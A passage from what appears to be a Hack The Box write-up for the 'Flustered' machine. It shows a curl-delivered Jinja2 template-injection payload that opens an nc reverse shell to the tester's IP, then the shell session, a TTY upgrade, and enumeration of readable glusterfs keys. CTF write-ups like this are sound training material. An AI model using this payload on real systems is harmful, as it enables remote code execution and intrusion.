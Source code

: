 let's try nc. It works
```bash
curl -H 'Content-Type: application/json' -d '{"siteurl":"{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__builtins__[\"__import__\"](\"os\").popen(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.12 80 >/tmp/f\").read()}}{%endif%}{% endfor %}"}' http://flustered.htb
```

0xdf used python interactive to get shell. It seems a good way to get rid of encoding.

Anyway, HackTricks won this round https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping

```bash
❯ nc -lvnp 80
listening on [any] 80 ...

connect to [10.10.16.12] from (UNKNOWN) [10.129.96.232] 41628
bash: cannot set terminal process group (670): Inappropriate ioctl for device
bash: no job control in this shell
www-data@flustered:~/html/app$ 
www-data@flustered:~/html/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@flustered:~/html/app$ python --version
python --version
Python 2.7.16
www-data@flustered:~/html/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@flustered:~/html/app$ ^Z
[1]  + 23055 suspended  nc -lvnp 80
❯ stty raw -echo; fg
[1]  + 23055 continued  nc -lvnp 80
                                   id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@flustered:~/html/app$ stty rows 48 columns 194
```

### Lateral movement 
##### Enumeration
www-data can read files in `/etc/ssl` (which isn’t the default config):

```bash
www-data@flustered:~/html/app$ ls -l /etc/ssl
total 44
drwxr-xr-x 2 root root 16384 Jan 28  2022 certs
-rw-r--r-- 1 root root  4060 Nov 25  2021 glusterfs.ca
-rw-r--r-- 1 root root  3243 Nov 25  2021 glusterfs.key
-rw-r--r-- 1 root root  1822 Nov 25  2021 glusterfs.pem
-rw-r--r-- 1 root root 11118 Aug 24  2021 openssl.cnf
drwx------ 2 root root  4096 Jan 28  2022 private

localhost:/vol1 on /home/jennifer type fuse.glusterfs (rw,nosuid,relatime,user_id=0,group_id=0,default_permissions,allow_other,max_read=131072,_netdev,x-systemd.automount)
fusectl on /sys/fs/fuse/connections type fusectl (rw,relatime)
```
